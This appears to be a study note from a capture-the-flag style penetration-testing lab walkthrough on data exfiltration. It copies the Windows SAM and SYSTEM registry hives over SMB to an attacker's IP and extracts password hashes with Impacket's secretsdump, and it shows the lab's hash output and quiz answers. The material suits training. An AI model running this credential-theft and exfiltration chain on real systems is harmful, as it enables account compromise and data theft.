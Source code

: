 Data exfiltration is something that should _never_ be considered without explicit prior consent. Generally speaking, most external engagements will strongly prohibit taking data from compromised systems; however, it is worth bearing in mind that this may not be the case for internal engagements -- and some external engagements outright set targets for the red team that revolve around exfiltrating a set piece of data from the targets once compromised. Even if this is a skill that may not be used on a daily basis, it is still well worth learning.  

---

The goal of exfiltration is always to remove data from a compromised target. This could be things like passwords, keys, customer/employee data, or anything else of use or value. If the data being exfiltrated is in plain text then this could be as simple as copying and pasting the contents of a file from a remote shell into a local file. If the data is in a binary format, or otherwise can't just be copied and pasted, then more complicated methods must be used to exfiltrate the targeted file.

A common method for exfiltrating data is to smuggle it out within a harmless protocol, usually encoded. For example, DNS is often used to (relatively) quietly exfiltrate data. HTTPS tends to be a good option as the data will outright be encrypted before egress takes place. ICMP can be used to (very slowly) get the data out of the network. DNS-over-HTTPS is superb for data exfiltration, and even email is often used.  

In a real world situation an attacker will be looking to exfiltrate data as quietly as possible as there may be an Intrusion Detection System active on the compromised network which would alert the network administrators to a breach should the data be detected. For this reason *an attacker is unlikely to use protocols as simple as FTP, TFTP, SMB or HTTP*; however, in an unmonitored network these are still good options for moving files around.

It's worth noting that most command and control (C2) frameworks come with options to quietly exfiltrate data. Practically speaking, this is likely how a bad actor would be exfiltrating data, so it's worth keeping up to date with the current "standards" used by the various frameworks. There are also plenty of standalone tools available to automate sending and receiving obfuscated data.  

---

In short, the only limitation when it comes to exfiltration is your imagination. Whilst there are certainly common techniques available (and many tools around to take advantage of them) it will always be the new and obscure methods that are the most successful. Who knows? Maybe you'll even find a legitimate use for steganography!

As extra reading, [PentestPartners](https://www.pentestpartners.com/) have a superb [blog post](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/) on this topic.

> [!Question]
>1. Is FTP a good protocol to use when exfiltrating data in a modern network (Aye/Nay)? 
>`Nay`
>1. For what reason is HTTPS preferred over HTTP during exfiltration?
>`Encryption`



---

Let's put this into practice!

We need some way to prove to Thomas that we've compromised his PC. We could leave a note on his Desktop, or we could be fancy and give him his Administrator password hash to prove that we've rooted it.  

There's no way we're going to get Mimikatz past Defender. We have SYSTEM access, so we could technically just disable Defender, but let's try to do this with as little destructiveness as possible (not least for other users on the network). What we _can_ do is grab the files containing the password hashes, pass them back to our attacking machine, then dump the hashes locally. 

## Linux
On Linux this would be a simple matter of grabbing `/etc/shadow`. 

## Windows
On Windows it is slightly more complex than that.

Local user hashes are stored in the Windows Registry whilst the computer is running -- specically in the `HKEY_LOCAL_MACHINE\SAM` hive. This can also be found as a file at `C:\Windows\System32\Config\SAM`, however, this should not be readable whilst the computer is running. 

### Save the SAM file
To dump the hashes locally, we first need to save the SAM hive:  
`reg.exe save HKLM\SAM sam.bak   `

This saves the hive as a file called "sam.bak" in the current directory.

### Save the SYSTEM file
Dumping the SAM hive isn't quite enough though -- we also need the SYSTEM hive which contains the boot key for the machine:  
`reg.exe save HKLM\SYSTEM system.bak   `

With both Hives dumped, we can exfiltrate them back to our attacking machine to dump the hashes out of sight of Defender.


It's up to you how you choose to exfiltrate the files. Given this is a home network with no monitoring in place, an SMB server is recommended. Connect to your SMB server using your SYSTEM reverse shell with the `net use` command. You can now either save the files directly to your own drive, or move the files to your attacking machine if you already dumped the hives, e.g:  
`reg.exe save HKLM\SAM \\ATTACKING_IP\share\sam.bak`  
or  
`move sam.bak \\ATTACKING_IP\share\sam.bak   `

> [!Note]
>You may encounter an error when reconnecting. This is due to the way that Windows handles cached credentials.
>_![[52376f416ede.png]]
>System error 1312 can usually be solved by connecting using an arbitrary domain. For example, specifying_ `/USER:domain\user` _rather than just the username. The same SMB server will still work here; however, Windows sees it as a different user account and thus allows the new connection._

With both files stored locally, we can now dump some hashes! Make sure you delete the .bak files from the target if you copied them rather than moving them.

Once again, remember to disconnect from the SMB server!


---


## Dumping the hashes

There are a variety of tools that could do this job for us. The most reliable is (as is often the case), a script from the Impacket library: `secretsdump.py` .

Let's use this against our dumped hives:  
`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL`

![[28853bc2be23.png]]

Each local account on the target is shown here, in a format of Username, RID, LM hash, NT hash -- separated by colons. 
We are interested in the _NT_ hashes -- the last section (blurred). As a side note: `31d6cfe0d16ae931b73c59d7e0c089c0` is an empty hash, and indicates that the account is not activated. These can thus be discounted.

---

# Your job

1. #Attacking_Machine 
	Start up a temporary SMB server.
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```

2. #Reverse_Shell 
	Dump the SAM hive.
```
reg.exe save HKLM\SAM sam.bak
```

3. #Reverse_Shell 
	Dump the SYSTEM hive.
```
reg.exe save HKLM\SYSTEM system.bak
```

4. #Reverse_Shell 
	Connect to the SMB server.
```
net use \\10.50.85.33\share /USER:user s3cureP@ssword
```

5. #Reverse_Shell 
	Data exfiltration.
```
move sam.bak \\10.50.85.33\share\sam.bak

move system.bak \\10.50.85.33\share\system.bak
```

6. #Reverse_Shell 
	Disconnect from the SMB server.
```
net use \\10.50.85.33\share /del
```

7. #Attacking_Machine 
	Dump the hashes.
```
secretsdump.py -sam sam.bak -system system.bak LOCAL
```

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<font color="#92d050">a05c3c807ceeb48c47252568da284cd2</font>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up... 


> [!Question]
>What is the Administrator NT hash for this target?
>`a05c3c807ceeb48c47252568da284cd2`

We have now completed everything we set out to accomplish: demonstrating that Wreath's network is vulnerable. Take this chance to go through the network and clean up after yourself. Aside from being courteous to other users of the network, this is also something you should always do in real life; we wouldn't want to make things easy for an attacker, would we?  

Remove all the tools, shells, payloads, accounts, and any other remnants you left behind.


**Next step:**  [[Debrief & Report]]
